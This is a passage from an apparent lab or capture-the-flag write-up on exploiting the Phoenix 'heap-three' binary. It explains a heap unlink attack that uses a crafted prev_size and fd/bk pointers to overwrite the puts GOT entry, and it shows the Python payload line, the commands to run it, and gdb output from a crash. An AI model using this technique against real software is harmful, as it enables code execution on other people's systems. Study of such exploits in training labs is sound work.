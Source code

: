 This means when our chunk is freed, it will think the current chunk is free already and try to consolidate it (since `PREV_INUSE` is unset). It'll check next and realize that chunk is in use and ignore it. Next it'll step back to the last chunk using `prev_size`, and consolidate that chunk. Because of the way `free()` calculates that value (`p = chunk_at_offset(p, -((long) prevsize));`), it will use -(`prevsize`), which in our case == `-(-4)` == `4`. So it will add 4 to our current p and unlink that. This means we just need an extra 4 bytes of padding.

Obviously we're going to use the values we defined at the beginning of the file, but we need to do some offsetting of those to make this work as intended. It swaps `p->fd` with `p->bk->fd`, and then `p->bk` with `p->fd->bk`. Since structs in C are just defined by an offset, `->bk` is adding 12 to our pointer address, and `->fd` is adding 8. So if we are going to put our address to write to first, if we want it to write to the correct address, we need to put -12, so it ends up finding the right address. The second address needs to be the pointer to our executable heap write so that it will end up in our GOT location. Let's write that out:
```python
payload += b'A' * 4 + p32(PUTS-12) + p32(RETADDR+16)
```

If we just tack on `print(str(payload)[2:-1])`, it will print it as raw bytes to the terminal, which we'll put into a file: `echo -ne $(python3 solve-heap-three.py) > payload`. Then we can then run with `/opt/phoenix/i486/heap-three $(cat payload)`.

Segmentation fault.... hmmm.... let's check out our free's in gdb.

```
 → 0xf7e6902b                  add    BYTE PTR [ecx], ch
   0xf7e6902d                  add    BYTE PTR [eax], al
   0xf7e6902f                  add    BYTE PTR [eax], al
   0xf7e69031                  add    BYTE PTR [eax], al
   0xf7e69033                  add    BYTE PTR [ecx+0x41], al
   0xf7e69036                  inc    ecx
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── memory:0xf7e69000 ────
0xf7e69000│+0x0000 0x00000028ffffffac
0xf7e69008│+0x0008 0x90909090f7e69028
0xf7e69010│+0x0010 0x0487d56890909090
0xf7e69018│+0x0018 0x000000000804c130
0xf7e69020│+0x0020 0x0000000000000000
0xf7e69028│+0x0028 0x0000002900000000
0xf7e69030│+0x0030 0x4141414100000000
0xf7e69038│+0x0038 0x4141414141414141
0xf7e69040│+0x0040 0x4141414141414141
0xf7e69048│+0x0048 0x4141414141414141
0xf7e69050│+0x0050 0xffffffb0fffffffc
0xf7e69058│+0x0058 0x0804c1f4ffffffad
0xf7e69060│+0x0060 0x000000000804c1f4
0xf7e69068│+0x0068 0x0000000000000000
0xf7e69070│+0x0070 0x0000000000000000
0xf7e69078│+0x0078 0x000fff8900000000
0xf7e69080│+0x0080 0x0000000000000000
0xf7e69088│+0x0088 0x0000000000000000
0xf7e69090│+0x0090 0x0000000000000000
0xf7e69098│+0x0098 0x0000000000000000
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "heap-three", stopped, reason: SIGSEGV
```
